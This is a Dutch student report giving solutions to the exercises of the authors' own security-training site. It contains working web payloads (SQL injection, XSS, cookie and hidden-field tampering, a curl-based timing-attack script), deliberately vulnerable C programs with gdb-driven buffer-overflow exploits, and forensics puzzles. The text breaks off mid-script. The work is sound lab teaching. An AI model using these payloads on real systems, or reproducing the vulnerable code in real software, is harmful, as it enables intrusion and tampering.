\documentclass[a4paper,11pt]{report}

\usepackage[a4paper]{geometry}
\usepackage[dutch]{babel}
\usepackage{hyperref}
\usepackage{color}
\usepackage{listings}
\usepackage{parskip}
\usepackage{textcomp}
\usepackage{graphicx}

\definecolor{lbcolor}{rgb}{0.85,0.85,0.85}
\definecolor{LinkColor}{rgb}{0,0,0.5}
\lstset{language=bash,
numbers=left,
stepnumber=1,
numbersep=5pt,
numberstyle=\tiny,
breaklines=true,
breakautoindent=true,
postbreak=\space,
tabsize=2,
basicstyle=\ttfamily\footnotesize,
showspaces=false,
showstringspaces=false,
extendedchars=true,
backgroundcolor=\color{lbcolor}
}

\bibliographystyle{plain}

\begin{document}

\title{Beveiligingssite: Oplossingen Oefeningen}
\date{7 maart 2014}
\author{Adriaan Dens (r0257589)\\
	Jan Weyens (s0205128)\\
	Klaas Janssens (r0429246)\\
	Quinten Van Der Auwera (r0258371)
}	

\maketitle

\tableofcontents

\chapter{Inleiding}
In dit verslag worden alle oefeningen van onze beveiligingssite besproken.
Voor sommige oefeningen zijn er meerdere oplossingen mogelijk. 
De oplossingen die hier voorgesteld worden zijn enkel voorbeeldoplossingen.
\newpage

\chapter{Web-based}
\section{Oefening 1}
\begin{enumerate}
  \item View Page Source
  \item Scroll naar beneden
  \item var wachtwoord = ``MissJakkeHippy''
\end{enumerate}
\section{Oefening 2}
\begin{enumerate}
  \item View Page Source
  \item Scroll naar beneden
  \item var wachtwoord = 'wachtwoord' + f = wachtwoordeurodeal
  \item var wachtwoord = wachtwoord + e = wachtwoordeurodealnjam
\end{enumerate}
\section{Oefening 3}
\begin{enumerate}
  \item View Page source
  \item Scroll naar beneden
  \item Open ../../js/oefening3.js
  \item var wachtwoord = Dit\_is\_het\_foute\_wachtwoord
\end{enumerate}
\section{Oefening 4}
\begin{enumerate}
  \item View Page Source
  \item Scroll naar beneden
  \item Plak alles \textless script\textgreater eval(function(p,a,c,k,e,d) ... in http://jsbeautifier.org
  \item Copy alles van "var tse = ..." tot en met "var wachtwoord = ..."
  \item Open Console (CTRL + SHIFT + j)
  \item Plak in Console tab en typ: console.log(yBV + 'gGZ' + Pf3 + z52 + fC7);
  \item DXbgGZWdUFyUgaH verschijnt
\end{enumerate}
\section{Oefening 5}
\begin{enumerate}
  \item Pop-up sluiten (kruisje klikken)
  \item Open Page Source van de oefeningen-pagina
  \item Verander de URL van /web/5\_fout.php naar /web/5
  \item Scroll naar beneden
  \item Wachtwoord == "ThunderGorilla"
\end{enumerate}
\section{Oefening 6}
\begin{enumerate}
  \item Rechtermuisknop op dropdown-menu
  \item Inspect Element
  \item Open \textless select id...\textgreater
  \item Verander de Value van Joske naar Jan
  \item Druk op Verzend
\end{enumerate}
\section{Oefening 7}
\begin{enumerate}
  \item CTRL + SHIFT + j
  \item Open Console-tab
  \item Typ: document.cookie="gebruikersnaam=admin"
  \item Typ: document.cookie="wachtwoord=baas"
  \item Druk op Verzend
\end{enumerate}
\section{Oefening 8}
\begin{enumerate}
  \item Download een User-agent switch plugin
  \item Pas User-agent aan naar jakkepiraat
  \item Druk op Verzend
\end{enumerate}
\section{Oefening 9}
\begin{enumerate}
  \item CTRL + SHIFT + j
  \item Open Console-tab
  \item Typ: teller=3
  \item Wachtwoord: buttonweed
\end{enumerate}
\section{Oefening 10}
Deze oefening kan enkel opgelost worden door middel van het schrijven van een brute-force script.
\begin{lstlisting}
hashCode = function(s) {
	return s.split("").reduce(function(a,b) {
		a = ((a << 5) - a) + b.charCodeAt(0);
		return a&a
	}, 0);              
}

var chars = "abcdefghijklmnopqrstuvwxyz";

function brute(str) {
	if (str.length < 6) {
		var copy = str;
		
		for (var i =0; i < chars.length; i++) {
			copy = str;
			copy += chars.substring(i,i+1);
			if (hashCode(copy) == 97532594) {
				console.log(copy);
			} else {
				brute(copy);
			}
			
			if (str.length == 0) {
				console.log("Mogelijkheden met letter " + copy + " voltooid.");
			}
		}
	}
}

brute("");

Na enkele seconden vinden wij het volgende paswoord: "flups"
\end{lstlisting}
\section{Oefening 11}
\begin{enumerate}
  \item Typ: \textless script\textgreater alert(``Wateva!'')\textless /script\textgreater
  \item Druk op Verzend
\end{enumerate}
\section{Oefening 12}
\begin{enumerate}
  \item Typ bij Username: checkenstunt' OR '1'='1
  \item Password mag leeg gelaten worden
\end{enumerate}
\section{Oefening 13}
\begin{enumerate}
  \item CTRL + SHIFT +j
  \item Ga naar Elements-tab
  \item In de form staat een hidden field.
  \item In dit hidden vield staat een SQL-query
  \item Verander de value naar: UPDATE users SET score = 10 WHERE username='chickenstunt'
  \item Druk op Toon score
\end{enumerate}
\section{Oefening 14}
\begin{enumerate}
  \item CTRL + SHIFT + j
  \item Typ: document.cookie = ``account=cowbomba''
  \item Druk op Herlaad
  \item Vul 72381 in
  \item Druk op Verzend
\end{enumerate}
\section{Oefening 15}
\begin{enumerate}
  \item Copy de URL: http://www.pokertjepoker...
  \item Verander: account=hacksite\&geld=10
  \item Druk op Verzend
\end{enumerate}
\section{Oefening 16}
\begin{enumerate}
  \item Rechtermuisknop op dropdown menu en Inspect Element
  \item Verander Value naar 16.php\%00
  \item Druk op Open
  \item In de broncode staat het wachtwoord: PanoramicBacon
\end{enumerate}
\section{Oefening 17}
\begin{enumerate}
  \item Druk op de oefenomgeving
  \item Verwijder de userarea/ in de URL
  \item Open AdminOnly.txt document
  \item wachtwoord: funkymonkey
\end{enumerate}
\section{Oefening 18}
Een manier om deze oefening op te lossen is door middel van brute-forcen. Dit kan op de website zelf gedaan worden in de console (CTRL + SHIFT + j). Onderstaande script is een voorbeeld oplossing.
\\\\
De naam van de afbeeldingen zijn altijd volgens de dezelfde structuur opgeslagen: `cijfer' + `teken' + `teken'.
\\\\
Het wachtwoord is 20 tekens lang. Er staatn 2 letters per afbeelding, dus moeten we 10 afbeeldingen vinden in totaal.De eerste 2 zijn al gegeven, dus het script moet beginnen bij 3.(De eerste lus)
\\\\
De volgende twee lussen dienen om de alle mogelijke tekens te overlopen. Een lus voor het eerste teken en een lus voor het tweede teken.
\\\\
In dit script zal de afbeelding direct in HTML geplaatst worden. Hierdoor zien we onmiddellijk wanneer de volgende 2 letters gevonden zijn.
\\\\
In de code van deze website staan divs met class 'uitlijnen', dit kan via Javascript makkelijk aangesproken en uitgebreid worden. Er kan hier ook een ander element op basis van een class of id gebruikt worden.
\\\\
Het is mogelijk dat de website dit script niet kan uitvoeren, dan moet men de buitenste for-lus verwijderen en de volgende lijn manueel aanpassen:
\begin{lstlisting}
<img src="/bestanden/18/' + i + abc[j] + abc[k] + '.png">'; naar
	<img src="/bestanden/18/3 + abc[j] + abc[k] + '.png">';
	<img src="/bestanden/18/4 + abc[j] + abc[k] + '.png">';
	...
	<img src="/bestanden/18/10 + abc[j] + abc[k] + '.png">';
\end{lstlisting}

Uiteindelijk vinden we het volgende wachtwoord: dgv255eifx6xqwfzslwv

\begin{lstlisting}
var abc = "abcdefghijklmnopqrstuvwxyz123456789";

for (var i = 3; i <= 10; i++) {
	for (var j = 0; j < abc.length; j++) {
		for (var k = 0; k < abc.length; k++) {
			document.getElementsByClassName("uitlijnen")[0].innerHTML += '<img src="/bestanden/18/' + i + 
				abc[j] + abc[k] + '.png">';
		}
	}
}
\end{lstlisting}
\section{Oefening 19}
\begin{enumerate}
\item Bij het manueel ingeven van letters zien we dat het ingeven van een foute letter ons 3-4 seconden laat wachten.
\item Gewoon voor de fun even de wiskunde van een timing attack versus een brute force approach:
\item Gegeven: wachtwoord van 10 tekens, foute invoer = 3 seconden wachten
	\begin{enumerate}
	\item Timing attack:
		\begin{enumerate}
		\item Slechtste geval: 3 seconden * 61 (a-zA-Z0-9) = 183 seconden per teken
		\item 10 tekens = 1830 seconden = +/- half uur
		\end{enumerate}
	\item Brute force
		\begin{enumerate}
		\item Slechtste geval: 62\textsuperscript{10} = 839299365868340224 mogelijkheden
		\item Eentje is juist: 839299365868340224 - 1 = 839299365868340223
		\item 839299365868340223 * 3 seconden = 2517898097605020669 seconden =~ 80 miljard jaar
		\end{enumerate}
	\end{enumerate}
\item Het oplossen van dit probleem doen we door middel van het schrijven van een script.
\end{enumerate}

\begin{lstlisting}
Elk teken wordt doorlopen, telkens plakken we er de script-parameter aan toe.
We meten de tijd, doen daarna ons request naar de site en meten de tijd opnieuw.
Als het verschil kleiner is dan 3 seconden, dan hebben we de correcte letter gevonden en begint het script.

Perl script:
------------

use Time::HiRes qw/ time sleep /;
@abc = ("a".."z", "A".."Z", 0..9);
foreach (@abc) {
	$wachtwoord = $ARGV[0] . $_;
	$start = time;
	$res = `curl -s -k -d 'oplossing=$wachtwoord' https://192.168.255.130/oefeningen/oplossing/web-based/19/`;
	$eind = time;
	$verschil = $eind - $start;
	
	if ($verschil < 3) {
		print "\n$wachtwoord\n";
		exit 1;
	}
	
	print ".";
}

Uitvoering: 
-----------

perl script.pl

Het script geeft 'n' als resultaat. Daarna voeren we uit:
	perl script.pl n
	
En krijgen we mogelijk 'ny' als resultaat. Daarna voeren we uit:
	perl script.pl ny
	
...

Uiteindelijk vinden we: nyL0csPv7P
\end{lstlisting}

\newpage

\chapter{Memory based}
\section{Oefening 1}
\begin{enumerate}
  \item gcc -g -fno-stack-protector -z execstack -o examenresultaat examenresultaat.c
  \item gdb -q examenresultaat
  \item (gdb) list
  	\begin{enumerate}
  	\item Door dit commando uit te voeren krijgen we een overzicht van de programma code
  	\item We zoeken de scharnierpunten in dit programma:
  		\begin{enumerate}
  		\item 1 argument: \textless naam\textgreater
  		\item naam == Billy Eliot
  		\item punt == 5/20
  		\end{enumerate}
  	\end{enumerate}
  \item (gdb) break 41
  	\begin{enumerate}
  	\item adres van punt en naam te weten komen
  	\end{enumerate}
  \item (gdb) break 58
  	\begin{enumerate}
  	\item Mogelijke bufferoverflow als argument 1 te groot is
  	\item strcpy(naam, argv[1])
  	\end{enumerate}
  \item (gdb) break 60
  	\begin{enumerate}
  	\item Controleren of overflow gelukt is
  	\end{enumerate}
  \item (gdb) run "Billy Eliot"
  \item (gdb) x/x naam
  	\begin{enumerate}
  	\item adres: 0xbffff65a
  	\end{enumerate}
  \item (gdb) x/x punt
  	\begin{enumerate}
  	\item adres: 0xbffff66a
  	\end{enumerate}
  \item (gdb) print 0xbffff66a - 0xbffff65a
  	\begin{enumerate}
  	\item Berekenen hoeveel bytes er geschreven moeten worden om de variabele punt te overschrijven
  	\item \$1 = 16
  	\end{enumerate}
  \item (gdb) run \$(perl -e 'print "A"x17')
  	\begin{enumerate}
  	\item 17 keer A afprinten
  	\item De variabele punt zal nu overschreven worden met A
  	\end{enumerate}
  \item (gdb) cont
  \item (gdb) x/s punt
  	\begin{enumerate}
  	\item 0xbffff66a: "5/20"
  	\end{enumerate}
  \item (gdb) cont
  \item (gdb) x/s punt
  	\begin{enumerate}
  	\item 0xbffff66a: "A"
  	\end{enumerate}
  \item Gelukt!
  \item Volgens de opgave moet Billy Eliot \textgreater 10/20 behalen
  \item (gdb) quit
  \item ./examenresultaat ``\$(perl -e `print ``Billy Eliot'' . ``~~'' x5 . ``15/20'' ')''
\end{enumerate}

\begin{lstlisting}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <regex.h>

#define LENGTH 16

/* https://stackoverflow.com/questions/1085083/regular-expressions-in-c-examples 

int eigenstrcmp(char* str, char* naam) {
	int i, returnval = 0;
	for(i = 0; i < LENGTH; i++) {
		if(naam[i] == '\0') {
			break;
		} else if(str[i] != naam[i]) {
			returnval = 1;
			break;
		}
	}

	return returnval;
}

void padwithspaces(char* str) {
	char spaties[LENGTH];
	int stringlength = strlen(str);
	if(stringlength < LENGTH) {
		int aantalspaties = LENGTH - stringlength - 1;
			int i;

		for(i = 0; i < aantalspaties; i++)
			spaties[i] = ' ';
		spaties[aantalspaties] = '\0';
		strcat(str, spaties);
	}
}

int main(int argc, char *argv[]) {
		char punt[6] = "5/20";
		char naam[LENGTH];
		char correcte_naam[LENGTH] = "Billy Eliot";

		if(argc != 2) {
			printf("Hoe kan deze student nu een punt krijgen wanneer er geen naam wordt meegegeven?\n");
			exit(0);
		}
		regex_t regex1;
		regex_t regex2;
		if(regcomp(&regex1, "1[[:digit:]]/20", 0)) {
			fprintf(stderr, "Compile FAIL\n");
			exit(1);
		}
		if(regcomp(&regex2, "20/20", 0)) {
			fprintf(stderr, "Compile FAIL\n");
			exit(2);
		}

		strcpy(naam, argv[1]);
		padwithspaces(naam);
		padwithspaces(correcte_naam);

		if(!eigenstrcmp(naam, correcte_naam) && (!regexec(&regex1, punt, 0, NULL, 0) ||
			 !regexec(&regex2,punt, 0, NULL, 0))) {
			printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=\n");
			printf("Proficiat, Billy Eliot behaalde %s op Besturingssystemen 2!\n", punt);
			printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=\n");
		} else {
			printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=\n");
			printf("Pak uw spullen maar samen, u mag vertrekken!\n");
			printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=\n");
	}

	return 0;
}
\end{lstlisting}
\section{Oefening 2}
\begin{enumerate}
  \item gcc -g -fno-stack-protector -z execstack -o cracking-safe cracking-safe.c
  \item gdb -q cracking-safe
  \item (gdb) list
  	\begin{enumerate}
  	\item Door dit commando uit te voeren krijgen we een overzicht van de programma code
  	\item We zoeken de scharnierpunten in dit programma:
  		\begin{enumerate}
  		\item 1 argument: \textless paswoord\textgreater
  		\item return\_value == 0
  		\item password == argv[1]
  		\item strcmp(password, "") == 0 --\textgreater succes
  			\begin{enumerate}
  			\item Lege String als argument meegeven gaat niet
  			\end{enumerate}
  		\end{enumerate}
  	\end{enumerate}
  \item (gdb) break 8
  		\begin{enumerate}
  		\item Adressen van password en return\_value  			
  		\end{enumerate}
  \item (gdb) break 10
  		\begin{enumerate}
  		\item Controleren of overflow gelukt is  			
  		\end{enumerate}
  \item (gdb) run azer
  		\item (gdb) x/x \&return\_value
  			\begin{enumerate}
  			\item 0xbffff65c
  			\end{enumerate}
  		\item (gdb) x/x password
  			\begin{enumerate}
  			\item 0xbffff654
  			\end{enumerate}
  	\item (gdb) print 0xbffff65c - 0xbffff654
  		\begin{enumerate}
  		\item \$1 = 8
  		\end{enumerate}
  	\item (gdb) run ``azertyuip''
  	\item (gdb) cont
  	\item (gdb) x/x \&return\_value
  		\begin{enumerate}
  		\item 0xbffff64c: 0x00000070
  		\item return\_value is overschreven en zal geen 0 meer teruggeven.
  		\end{enumerate}
  	\item (gdb) quit
  	\item ./cracking-safe ``\$(perl -e `print ``A''x8 . ``B'' ')''
\end{enumerate}

\begin{lstlisting}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_safe(char *pass){
	int return_value = 0;
	char password[8];

	strcpy(password, pass);

	if(strcmp(password, "") == 0)
		return_value = 1;

	return return_value;
}

int main(int argc, char *argv[]) {
	if(argc < 2){
		printf("Fout!\nGebruik: %s <password>\n", argv[0]);
		exit(0);
	}

	if(strlen(argv[1]) == 0){
		printf("Fout!\nHet passwoord mag niet leeg zijn.\n");
		exit(0);
	}

	if(check_safe(argv[1])){
		printf("\n-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
		printf(" Successfully cracked the safe.\n");
		printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
		printf("Er staan momenteel 4 examens in de kluis:\n\n");
		printf("1) Besturingssystemen 1     P. Geens          [Open]\n");
		printf("2) Besturingssystemen 2     P. Geens          [Open]\n");
		printf("3) Databanken 2             W. Bertels        [Open]\n");
		printf("4) Beveiliging              P. Philippaerts   [Open]\n");

	}else{
		printf("\nSafe still closed.\n");
	}
}
\end{lstlisting}
\section{Oefening 3}
\begin{enumerate}
  \item gcc-3.3 -o prism prism.c
  \item gdb -q prism 
  \item (gdb) list
  	\begin{enumerate}
  	\item Door dit commando uit te voeren krijgen we een overzicht van de programma code
  	\item We zoeken de scharnierpunten in dit programma:
  		\begin{enumerate}
  		\item 2 argumenten: \textless IP-address\textgreater \textless password\textgreater
  		\item pw
  		\item return\_val == 0
 		\item Het return adres moet overschreven worden met het adres van de gegevens functie
  		\end{enumerate}
  	\end{enumerate}
  \item set disassembly-flavor intel
  	\begin{enumerate}
  	\item Disassembly taal naar intel zetten
  	\end{enumerate}
  \item disass gegevens
  	\begin{enumerate}
  	\item 0x08048481
  	\item Dit adres moet het return-adres van de main functie overschrijven
  		\begin{enumerate}
  		\item Let op: Little Endian
  		\end{enumerate}
  	\end{enumerate}
  \item Trial and error
  	\begin{enumerate}
  	\item (gdb) run ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x2')''
  		\begin{enumerate}
  		\item Program exited normally
  		\end{enumerate}
  	\item (gdb) run ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x3')''
  		\begin{enumerate}
  		\item Segmentation fault
  		\end{enumerate}
  	\item (gdb) run ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x4')''
  		\begin{enumerate}
  		\item Succes!
  		\end{enumerate}
  	\end{enumerate}
  \item ./prism ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x4')''
\end{enumerate}

\begin{lstlisting}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char *argv[]){
	if(argc != 3){
		printf("Error: %s <IP-address> <password> required\n", argv[0]);
		exit(0);
	}

	if(make_connection(argv[1], argv[2]) == 0){
		printf("\nMaking connection...\n");
		printf("====================\n");
		printf("\nConnection failed!\n");
		exit(0);
	}
}

int make_connection(char *ip, char *pass){
	char pw[8];
	int return_val = 0;

	strcpy(pw, pass);

	return return_val;
}

int gegevens(){
	printf("\nNSA\n");
	printf("*********\n");
	printf("Name Password\n");
	printf("------- -----------\n");
	printf("Frans Bauer fRanske123\n");
	printf("Lorrie Popovich loPo007\n");
	printf("Hello Kitty yttikolleh\n");
	printf("Klok Kenluider ringring00\n");

	return(0);
}
\end{lstlisting}
\section{Oefening 4}
\begin{enumerate}
  \item gcc-3.3 -g -o log-analyzer log-analyzer.c
  \item gdb -q log-analyzer
  \item (gdb) list
  	\begin{enumerate}
  	\item Door dit commando uit te voeren krijgen we een overzicht van de programma code
  	\item We zoeken de scharnierpunten in dit programma:
  		\begin{enumerate}
  		\item 1 argument: \textless servernaam\textgreater
  		\item command
  		\item name
  		\item strcpy(command ... ) op lijn 20
  			\begin{enumerate}
  			\item command wordt uitgevoerd door system(command) (lijn 27)
  			\item command overschrijven door strcpy(name, servernaam); op lijn 25
  			\end{enumerate}
  		\end{enumerate}
  	\end{enumerate}
  \item (gdb) break 26 
  	\begin{enumerate}
  	\item Adres van command bekijken
  	\item Adres van name bekijken
  	\end{enumerate}
  \item (gdb) run ``blah''
  \item (gdb) x/x command
  	\begin{enumerate}
  	\item 0xbffff6c0
  	\end{enumerate}
  \item (gdb) x/x name
  	\begin{enumerate}
  	\item 0xbffff680
  	\end{enumerate}
  \item (gdb) print 0xbffff6c0 - 0xbffff680
  	\begin{enumerate}
  	\item \$1 = 64
  	\end{enumerate}
  \item (gdb) run ``\$(perl -e `print ``A''x64 . ``echo \textbackslash{}``\textbackslash{}nEPIC TEST\textbackslash{}n\textbackslash{}''\textbackslash{}n'' ')''
  \item x/s command
  	\begin{enumerate}
  	\item 0xbffff670: ``echo \textbackslash{}``\textbackslash{}nEPIC TEST\textbackslash{}n\textbackslash{}'' ''
  	\end{enumerate}
  \item Succes. EPIC TEST verschijnt op het scherm.
  \item De opgave zegt dat we nu zelf een programma moeten schrijven die de juiste output genereert.
  \item Een voorbeeldscript:
\end{enumerate}

\begin{lstlisting}
oplossing.c
-----------

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

/* 

Resultaat:
-=-=-=-=-=-
echo "Mail-server: no errors found"
*/

// ./a.out "$(perl -e 'print "A"x64 . "echo \"\nEPIC TEST\n\"\"')"    

int main(int argc, char *argv[]){
	char command[] = "./oef4 \"$(perl -e 'print \"A\"x64 . \"echo \\\"\\n";
	strcat(command, "Mail-server: no errors found");
	strcat(command, "\\n\\\"\"')\"");

	system(command);
}

OUTPUT:
	Mail-server: no errors found
\end{lstlisting}

\begin{lstlisting}
log-analyzer.c
--------------

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char*argv[]){
	if(argc != 2){
		printf("Gebruik: %s <Server-naam>\n",argv[0]);
		exit(0);
	}

	/* Controleren of server wel bestaat */
	checkServerStatus(argv[1]);
}

int checkServerStatus(char *servernaam){
	char command[75];
	char name[50];

	if(strcmp(servernaam, "Mail-server") == 0){
		strcpy(command, "echo \"\n[ERROR]: Mail-server - r0123456 exploited your mail-server\n\"");
	}else{
		strcpy(command, "echo \"\n[ERROR]: Mail-server is the only registered server\n\"");
	}

	strcpy(name, servernaam);

	system(command);

	return (0);
}
\end{lstlisting}

\section{Oefening 5}
\begin{enumerate}
  \item gcc-3.3 -g -o gokkenvoorlosers gokkenvoorlosers.c
  \item gdb -q gokkenvoorlosers
  \item (gdb) list
  	\begin{enumerate}
  	\item Door dit commando uit te voeren krijgen we een overzicht van de programma code
  	\item We zoeken de scharnierpunten in dit programma:
  		\begin{enumerate}
  		\item 1 argument: \textless bestandsnaam\textgreater
  		\item output
  		\item naam
  		\item strcpy(naam, bestandsnaam) op lijn 22
  		\item fprintf(fp, ...). De output wordt hier weggeschreven in gokverslaafden.txt
  			\begin{enumerate}
  			\item Initieel: docu ment	-10 000
  			\end{enumerate}
  		\end{enumerate}
  	\end{enumerate}
  \item (gdb) break 23
  	\begin{enumerate}
  	\item Adres van output bekijken
  	\item Adres van naam bekijken
  	\end{enumerate}
  \item (gdb) run test
  \item (gdb) x/x output
  	\begin{enumerate}
  	\item 0xbffff630
  	\end{enumerate}
  \item (gdb) x/x naam
  	\begin{enumerate}
  	\item 0xbffff5f0
  	\end{enumerate}
  \item (gdb) print 0xbffff630 - 0xbffff5f0
  	\begin{enumerate}
  	\item \$1 = 64
  	\end{enumerate}
  \item (gdb) run ``\$(perl -e `print ``A''x64 . ``test'' ')''
  	\begin{enumerate}
  	\item gokverslaafden.txt bevat nu ``test''
  	\end{enumerate}
  \item Succes! Nu moeten we een programma schrijven die dit automatiseert.
  \item Een voorbeeld oplossing zou het volgende kunnen zijn:
\end{enumerate}

\begin{lstlisting}
oplossing.c
------------

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char outputString[] = "Naj ed Nam\t8 000\nnajrda saalk\t10\nNet Nuiq\t5";

int main(int argc, int argv[]){
	char command[200] = "./gokkenvoorlosers \"$(perl -e 'print \"\x41\"x64 . \"";

	strcat(command, outputString);
	strcat(command, "\"')\"");

	system(command);
}

OUTPUT:
	cat gokverslaafden.txt
		Naj ed Nam		8 000
		najrda saalk	10
		Net Nuiq		5
\end{lstlisting}

\begin{lstlisting}
gokkenvoorlosers.c
------------------

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/file.h>

int main(int argc, char *argv[]){
	if(argc != 2){
		printf("Gebruik: %s <bestandsnaam>\n",argv[0]);
		exit(0);
	}

	schrijfBestand(argv[1]);

}

int schrijfBestand(char *bestandsnaam){
	char output[200];
	char naam[50];

	strcpy(output, "Docu Ment -10 000");

	strcpy(naam, bestandsnaam);	

	FILE *fp;
	fp=fopen("gokverslaafden.txt", "w");
	fprintf(fp, "%s\n", output);

	fclose(fp);
}
\end{lstlisting}
\section{Oefening 6}
\begin{enumerate}
  \item gcc-3.3 -g -o viewmap viewmap.c
  \item gdb -q viewmap
  \item (gdb) list
  	\begin{enumerate}
  		\item char filelist neemt enkel bestandsnamen van lengte 200 aan.
  		\item Het aanmaken van een bestand \textgreater ~ 200 zal deze array overschrijven.
  	\end{enumerate}
  \item (gdb) quit
  \item touch ``\$(perl -e `print ``Bestand.txt'' . `` ''x39 . ``admin\_passwords.txt'' ')''
  	\begin{enumerate}
  	\item Het bestand met een lengte \textgreater ~ 200 is aangemaakt.
  	\end{enumerate}
  \item ./viewmap
  	\begin{enumerate}
  	\item Succes!
  	\end{enumerate}
  \item Een mogelijke oplossing is de volgende:
\end{enumerate}

\begin{lstlisting}
oplossing.c
-----------

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(void){
	system("touch \"$(perl -e 'print \"Bestand.txt\" . \" \"x39 . \"admin_passwords.txt\"')\"");

	system("./viewmap");
}
\end{lstlisting}

\begin{lstlisting}
viewmap.c
---------

#include <dirent.h>
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(void){
	leesDir();
}

int countFiles(){
	int count = 0;
	DIR *d;
	struct dirent *dir;
	d = opendir(".");

	if (d)
	{
		while ((dir = readdir(d)) != NULL)
		{
			if(strcmp(dir->d_name, ".") != 0 && strcmp(dir->d_name, "..") != 0){
				count++;
			}
		}

		closedir(d);
	}

	return count;

}

int leesDir(){
	char filelist[100][50]; // 100 strings van lengte 200

	DIR *d;
	struct dirent *dir;
	d = opendir(".");

	int teller = countFiles() - 1;
	int count = teller;

	if (d)
	{
		while ((dir = readdir(d)) != NULL)
		{
			if(strcmp(dir->d_name, ".") != 0 && strcmp(dir->d_name, "..") != 0){
				strcpy(filelist[teller], dir->d_name);
				teller--;
			}
		}

		closedir(d);
	}

	int i = 0;
	for (i = 0; i < count + 1; i++)
		printf("%s\n",filelist[i]);

	return(0);
}
\end{lstlisting}

\newpage

\chapter{Forensics}
\section{Oefening 1}
\begin{enumerate}
  \item Save Image
  \item Surf naar http://www.exifdata.com
  \item Browse naar de afbeelding
  \item Wachtwoord: MurderingRainbowfish
\end{enumerate}
\section{Oefening 2}
\begin{enumerate}
  \item Save image
  \item Open met een texteditor
  \item Zoek naar passwoord = veiligverborgen
\end{enumerate}
\section{Oefening 3}
\begin{enumerate}
  \item Save image
  \item Open met editor (vb: Paint)
  \item Kleur achtergrond met een andere kleur dan zwart
  \item Wachtwoord: kungfuporcupine wordt zichtbaar
\end{enumerate}
\section{Oefening 4}
\begin{enumerate}
  \item Save image
  \item Zwarte pixel = 1, witte pixel = 0
  \item Binary omzetten naar ASCII
  \item Omdraaien van de tekst: wachtwoord: pixelsenpuntjes
\end{enumerate}
\begin{lstlisting}
(0 1 1 1 0 0 1 1)
(0 1 1 0 0 1 0 1)
(0 1 1 0 1 0 1 0)
(0 1 1 1 0 1 0 0)
(0 1 1 1 0 1 1 0)
	. . .
	. . .
	. . .
(0 1 1 0 0 0 0 1)
(0 1 0 1 0 1 1 1)
\end{lstlisting}
\section{Oefening 5}
\begin{enumerate}
  \item Download het bestand
  \item Open de zip
  \item wachtwoord.txt is nu zichtbaar
\begin{enumerate}
	\item Wanneer niet zichtbaar in Windows:
	\item Configuratiescherm --\textgreater MapOpties --\textgreater tablad Weergave --\textgreater Verborgen bestanden en mappen weergeven
\end{enumerate}
  \item Open dit bestand
  \item Wachtwoord = modernPerl
\end{enumerate}
\section{Oefening 6}
\begin{enumerate}
  \item Download excel bestand
  \item Selecteer rij 11 en 13
  \item Rechter muisknop en selecteer ``zichtbaar maken''
  \item Rij 12 wordt zichtbaar
  \item Oplossing: ExcelBaas
\end{enumerate}
\section{Oefening 7}
\begin{enumerate}
  \item Save Image
  \item Zoom in tussen de 2 wielen van de auto onder de railing
  \item wachtwoord = blindemol
\end{enumerate}
\section{Oefening 8}
\begin{enumerate}
  \item Save image
  \item Rechter muisknop, eigenschappen
  \item Tablad details
  \item Bij Copyright staat: wachtwoord: portretvanjan
\end{enumerate}
\section{Oefening 9}
\begin{enumerate}
  \item Save image
  \item Verander extensie naar .zip of .rar
  \item passwoord.txt is zichtbaar
  \item passwoord: ubuntu
\end{enumerate}
\section{Oefening 10}
\begin{enumerate}
  \item Save image
  \item Gebruik een Tool om het wachtwoord te vinden
  \begin{enumerate}
  \item Windows: Free File Camouflage
  \end{enumerate}
  \item hideme.txt wordt gevonden
  \item paswoord: hydra
\end{enumerate}
\section{Oefening 11}
Verstopte dingen:\\
In wallpaper.jpg zit een PDF verstopt over mifare. (passwoord: mifare)\\
Uit de 3 foto's in fotos.zip kan men het tweede paswoord afleiden. (passwoord: spuitenenslikken)\\\\

Oplossing:\\
fotos.zip: met “unzip -v fotos.zip” zie je de namen van de 3 bestanden: filemon, geraldine en timhofman. Daarmee kan je een link leggen naar het passwoord “spuitenenslikken”.\\
wallpaper.jpg: met steghide kan je een pdf uit de afbeelding halen. (passwoord: mifare, kan je vinden in die youtube links)


\section{Oefening 12}
\begin{enumerate}
  \item Open download in Chrome
  \item Klik op de Titel balk
  \item Wachtwoord: vogelhuisje wordt zichtbaar
\end{enumerate}
\section{Oefening 13}
Om de data uit de afbeelding te halen is men verplicht om een script te schrijven. Het onderstaande script is een voorbeeldscript. Wanneer we het script runnen krijgen een tekst.
\begin{lstlisting}
/*
Based on https://gist.github.com/niw/5963798
*/

#include <stdio.h>
#include <stdlib.h>
#include <limits.h>
#include <png.h>

void read_png_file(char*);

int main(int argc, char** argv) {
	if(argc != 2) {
		fprintf(stderr, "Usage: %s filename_picture\n", argv[0]);
		exit(1);
	}

	FILE *fp = fopen(argv[1], "rb");	

	png_structp png = png_create_read_struct(PNG_LIBPNG_VER_STRING, NULL, NULL, NULL);
	png_infop info = png_create_info_struct(png);
	if(setjmp(png_jmpbuf(png))) abort();

	png_init_io(png, fp);

	png_read_info(png, info);
	int width = png_get_image_width(png, info);
	int height = png_get_image_height(png, info);

